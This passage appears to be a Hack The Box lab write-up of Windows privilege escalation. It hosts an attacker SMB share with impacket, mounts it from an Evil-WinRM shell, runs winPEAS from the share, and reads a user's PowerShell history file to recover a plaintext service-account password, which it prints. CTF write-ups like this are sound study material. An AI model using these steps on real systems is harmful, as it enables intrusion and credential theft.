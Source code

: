 After discovering user's Let's run **winpease.exe**(WinPEAS is a compilation of local Windows privilege escalation scripts to **check for cached credentials, user accounts, access controls, interesting files, registry permissions, service accounts, patch levels, and more**.). So first we need to run a **smbserver** in our attacking machine to host shares so that we can access it on victim machine. For this we will be using script called **smbserver.py** from impacket toolkit. 

```powershell
sudo smbserver.py share -username ab -password ab . -smb2support
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.11.152,53138)
[*] AUTHENTICATE_MESSAGE (\ab,DC01)
[*] User ab\DC01 authenticated successfully
```

Now mount the shares on victim machine so that we can access it there

```powershell
*Evil-WinRM* net use \\10.10.10.10\share /u:ab ab
The command completed successfully.

*Evil-WinRM* PS C:\Users\legacyy\Documents> cd \\10.10.10.10\share
```

Now run **winpease** on victim machine and save the output in a file **win_peas.txt** and analyze it using `cat`

```powershell
*Evil-WinRM* PS Microsoft.PowerShell.Core\FileSystem::\\10.10.10.10\share>./winPEASx64.exe cmd > win_peas.txt
```

After analyzing the win_peas output, an PowerShell backup file come in front of me. When i open it i found credentials of **svc_deploy** user.
	`svc_deploy  : E3R$Q62^12p7PLlC%KWaxuaV`

<img width="856" alt="Pasted image 20240119214052" src="https://github.com/iammR0OT/HTB/assets/74102381/e4107438-81f2-4862-a8b9-7c79b3397c67">

```powershell
*Evil-WinRM* PS C:\Users> type C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```
